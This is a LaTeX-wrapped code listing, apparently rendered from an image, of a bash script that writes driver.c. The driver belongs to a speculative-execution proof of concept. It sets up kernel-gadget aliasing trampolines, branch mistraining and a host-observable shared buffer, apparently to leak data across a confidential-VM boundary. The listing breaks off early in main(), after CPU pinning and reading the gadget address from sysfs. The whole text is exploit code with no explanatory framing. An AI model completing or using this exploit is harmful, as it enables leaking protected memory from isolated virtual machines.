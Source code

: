 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
info "Writing driver to wire sysfs -> trampolines -> ASM entry - driver.c"
cat > "${USER_DIR}/driver.c" <<'EOF'
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sched.h> // For CPU pinning
#include <unistd.h>
#include <errno.h>

#define TRAMPOLINE_COUNT 64 // Number of speculative callsite trampolines

// Extern symbols from the ASM file and trampoline builder
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA (to alias against)
extern uint64_t __pbinc_probe_shared;          // SHARED (C-bit=0) buffer (host-observable)
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Callsite trampoline table (filled at runtime)
extern uint64_t __slow_predicate_ptr;          // Cold memory to delay branch resolution

// Provided by trampoline.c -> builds the aliasing callsite trampolines
void *pbinc_create_trampolines(uint64_t gadget_addr);

// Provided by pbinc.asm -> the speculative training -> syscall -> spin harness
void pbinc_entry(void);

// Reads a hex value from a sysfs-style file (e.g. /sys/kernel/pbinc/gaddr)
static uint64_t read_hex(const char *path) {
    FILE *f = fopen(path, "r");
    if (!f) { 
        perror(path); exit(1); // Abort if file can't be opened
    }
    unsigned long long x = 0;
    if (fscanf(f, "%llx", &x) != 1) {
        fprintf(stderr, "parse %s failed\n", path); exit(1); // Failed to parse hex
    }
    fclose(f);
    return x; // Return parsed 64-bit value
}

int main(int argc, char **argv) {
    if (argc < 2) {
        // Expect SHARED buffer guest-virtual address (GVA) as argument
        fprintf(stderr, "usage: %s <guest-VA-of-SHARED-probe-hex>\n", argv[0]);
        return 2;
    }

    ////////////////////////////////////////////
    // 1. Pin to specific CPU core -> stability
    ////////////////////////////////////////////
    cpu_set_t set; CPU_ZERO(&set); CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set); // Enforce CPU affinity for PoC repeatability

    ////////////////////////////////////////////
    // 2. Patch runtime addresses from sysfs / CLI
    ////////////////////////////////////////////
    // Load kernel gadget virtual address from module sysfs (e.g. /sys/kernel/pbinc/gaddr)
    __pbinc_kernel_gadget_addr = read_hex("/sys/kernel/pbinc/gaddr");


\end{lstlisting}
\end{document}
